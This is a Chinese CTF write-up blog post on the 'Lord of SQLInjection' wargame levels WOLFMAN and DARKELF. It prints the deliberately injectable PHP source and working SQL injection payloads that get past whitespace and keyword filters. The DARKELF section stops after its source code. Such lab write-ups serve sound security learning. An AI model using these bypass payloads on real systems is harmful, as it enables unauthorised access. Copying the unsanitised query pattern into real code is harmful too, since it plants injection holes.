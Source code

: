 ```yaml
---
layout:     post
title:      WriteUp6
subtitle:   SQL注入
date:       2022-10-30 20:11:00
author:     Distiny
header-img: img/post-bg-mma-5.jpg
catalog: true
tags:
    - CTF
    - web安全

---
```


### 靶场：[LORD OF SQLINJECTION](https://los.rubiya.kr/)

#### 第五题 WOLFMAN

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

绕过空格的方法：

- 替换字符：%09、%0A、%0D、%A0
- 使用括号包裹语句，不出现空格

`pw=1'or%0Aid='admin`

`pw=1'or(id='admin')--%09`	用括号替换也可以

#### 第六题 DARKELF

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
